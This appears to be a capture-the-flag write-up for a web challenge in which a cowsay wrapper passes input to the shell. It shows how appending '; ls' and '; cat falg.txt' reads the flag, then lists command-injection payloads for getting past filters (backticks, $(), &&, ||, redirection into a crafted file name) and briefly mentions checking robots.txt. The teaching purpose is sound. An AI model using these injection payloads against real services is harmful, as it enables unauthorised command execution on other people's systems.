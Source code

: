 ## Hint

Where have you seen cowsay before? Your terminal. soooooo....?

### Solution 1

Well the JS file simply executes a terminal command. But it starts with cowsay, so basically it imitates

```shell
$ cowsay <input>
```

But we can always do-

```shell
$ cowsay hi; ls
```

That gives us lots of files with `falg.txt`. Now you can do

```shell
$ cowsay hi; cat falg.txt
```

And done! 

### What if filtering was done?

Many a times, filtering is done, so that we can't use `;`, `$`, `|`, etc. So what can we do otherwise. Assume we know which all symbols are filtered. Now we look at various examples we should keep in mind. Let's try it practically too.

```bash
hi; ls -la
hi `ls -la`
hi $(ls -la)
hi && ls -la
hi || ls -la
hi * # wildcard
hi ~
hi .*
## File manipulation
hi > "file; ls -la"
## Environment Variable
hi $ENV_VAR
```

This is really important, we should know many of these


## Digging into websites
1. Some websites have more sources that may not be present in sources. The first place to look is `/robots.txt`.

`robots.txt` is a text file used by websites to communicate with web crawlers and robots, specifying which parts of the site should not be crawled or indexed by search engines.

